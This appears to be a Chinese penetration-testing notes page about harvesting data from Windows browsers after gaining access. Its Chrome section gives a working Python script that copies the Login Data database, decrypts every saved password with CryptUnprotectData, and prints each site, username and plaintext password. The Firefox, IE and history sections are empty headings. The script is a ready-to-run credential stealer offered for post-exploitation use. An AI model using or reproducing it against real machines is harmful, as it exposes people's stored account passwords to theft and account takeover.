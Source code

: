 <!-- TOC -->

- [前言](#前言)
- [密码抓取原理](#密码抓取原理)
    - [Chrome](#chrome)
    - [FireFox](#firefox)
    - [IE](#ie)
- [密码抓取实现](#密码抓取实现)
    - [Chrome](#chrome-1)
- [历史记录获取](#历史记录获取)
- [参考](#参考)

<!-- /TOC -->

## 前言
*每一次都在彷徨中挣扎，每一次……* 在后渗透阶段，获得权限后需要搜集目标系统的信息。信息越全面，越有助于进一步的渗透。对于Windows系统，用户浏览器往往包含非常有价值的信息。

## 密码抓取原理
### Chrome
![](https://www.github.com/52stu/Images/raw/master/xsj/1572253732185.png)

![](https://www.github.com/52stu/Images/raw/master/xsj/1572253750873.png)


Chrome中保存的密码先被二次加密，然后被保存在SQLite数据库文件中，位置如下：`%LocalAppData%\Google\Chrome\User Data\Default\Login Data`，可以使用`SQLiteStudio`打开，如下图：

![](https://www.github.com/52stu/Images/raw/master/xsj/1572254243325.png)

选择Form view，查看十六进制格式，获得**Chrome通过Windows API CryptProtectData()实现**二次加密后的用户密码，如下图：

![](https://www.github.com/52stu/Images/raw/master/xsj/1572254275757.png)


**注：**

如果Chrome正在运行，无法使用SQLiteStudio打开数据库文件Login Data，可将该文件复制后再打开

### FireFox

### IE

## 密码抓取实现
### Chrome
首先，编写程序实现读取SQLite数据库文件，这里选择使用python实现

开源代码很多，所以这里只给出一个示例：
```python
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect(getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    print (binascii.b2a_hex(result[2]))
```

读取得到的加密内容，还需要解密，通过[加密代码](https://github.com/scheib/chromium/blob/eb7e2441dd8878f733e43799ea77c2bab66816d3/chrome/browser/password_manager/password_store_win_unittest.cc#L107)我们可以得到解密的两个关键点：
1. 解密函数为CryptUnprotectData
2. 只有与加密数据的用户具有相同登录凭据的用户才能解密数据

**Chrome密码抓取完整代码**

```python
import os
import sqlite3
import win32crypt
import binascii
import shutil


paths_data = [
    os.getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data",
    os.getenv("APPDATA") + "\google\chrome\User Data\Default\Login Data"
]

path_data_chrome = [path for path in paths_data if os.path.exists(path)]


def Readpass(path_data):
    try:
        
        path_data_copy = os.getcwd() + '\\chrome_data'
        shutil.copy(path_data,path_data_copy)
        
    except Exception,e:
        print e
        
    try:
        conn = sqlite3.connect(path_data_copy)
        cur = conn.cursor()
    except Exception, e:
        print e

    cur.execute('SELECT origin_url, username_value, password_value FROM logins')
    data_result = {}

    for res in cur.fetchall():
        try:
            password = win32crypt.CryptUnprotectData(res[2], None, None, None, 0)[1]
        except Exception,e:
            password = ''
        URL = res[0];username = res[1]
        tplt = "{0:60s} {1:20s} {2:20s}"
        print tplt.format(URL, username, password)
        print "----------------------------------------------------------------------------------------------------"
        
        
if __name__ == '__main__':    
    if len(path_data_chrome) < 1:
        print " Chrome is not Installed!!!"
        sys.exit()
    elif len(path_data_chrome) > 1:
        print('{0:60s} {1:20s} {2:20s}'.format("URL", "UserName", "PassWord"))
        print "===================================================================================================="
        for p in path_data_chrome:
            Readpass(p)
    else:
        print('{0:60s} {1:20s} {2:20s}'.format("URL", "UserName", "PassWord"))
        print "===================================================================================================="
        Readpass(path_data_chrome[0])
    if os.path.exists(path_data_chrome):
        try:
            os.remove(path_data_chrome)
        except Exception,e:
            print e

```

## 历史记录获取

## 参考


[渗透技巧——导出Chrome浏览器中保存的密码]()
https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧——离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧——利用Masterkey离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8Masterkey%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)